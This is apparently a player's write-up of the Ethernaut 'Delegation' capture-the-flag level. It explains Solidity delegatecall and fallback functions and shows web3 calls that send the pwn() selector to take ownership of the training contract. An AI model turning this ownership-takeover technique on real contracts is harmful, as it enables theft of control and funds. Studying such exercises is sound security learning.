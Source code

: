 Ethernaut Address: 0xD991431D8b033ddCb84dAD257f4821E9d5b38C33
Player Address: 0xB83c1038Fde9fA12e7554289B83Df954ea7157d4

# Delegation

* Started with reading about `delegatecall`:
	- https://solidity-by-example.org/delegatecall/
	- https://medium.com/coinmonks/delegatecall-calling-another-contract-function-in-solidity-b579f804178c
	
* The difference between call and delegatecall:
	- If there is a user which calls contract A and contract A calls contract B
		+ A gets executed with the context of the user and B gets executed with the context of A	
	- If a user delegatecall A and A delegatecall B then
		+ Both A and B gets executed with the context of the user and changes will be reflected in the A

* fallback function
	- It is called when a non-existent function is called on the contract.
	- It is required to be marked external.
	- If not marked payable, it will throw exception if contract receives plain ether without data.
	- It can not return any thing.

* Possible exploits on delegatecall
	- https://solidity-by-example.org/hacks/delegatecall/
	- https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7/


## Solution

```js
await web3.eth.abi.encodeEventSignature("pwn()")
"0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab"
```

```js
await contract.sendTransaction({data: "0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab"})
```

We call the "pwn()" of the contract "Delegate" with the Storage (msg.sender, msg.value) of the "Delegation" contract. The delegation contract was called by "us" so the "from" value which is our own address is set as the "owner" of the "Delegation" contract.